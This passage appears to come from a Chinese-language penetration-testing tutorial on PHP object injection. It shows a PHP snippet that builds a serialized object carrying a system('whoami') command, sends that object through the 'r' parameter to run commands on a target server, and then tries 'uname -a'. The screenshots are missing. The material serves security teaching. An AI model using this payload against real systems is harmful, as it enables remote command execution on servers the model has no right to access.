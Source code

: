 1.  现在我们可以编写一个具有相同类名的代码，以生成包含我们要在服务器上执行的自己的命令的序列化对象：

```
        <?php
            class PHPObjectInjection{
                 public $inject = "system('whoami');";
            }
            $obj = new PHPObjectInjection;
            var_dump(serialize($obj));
        ?>
```

1.  我们将代码保存为 PHP 文件并运行代码，我们应该有序列化的输出：

![](img/722b5d72-d65b-4dbf-a47c-b963ad9be4eb.png)

1.  我们将此输出传递到`r`参数中，我们看到这里显示用户：

![](img/45e43049-e12f-47a4-aa54-aed864c3dd94.png)

1.  让我们尝试传递另一个命令，`uname -a`。我们使用我们创建的 PHP 代码生成它：

![](img/baba11b2-ced5-44a8-9be8-3481636bf437.png)
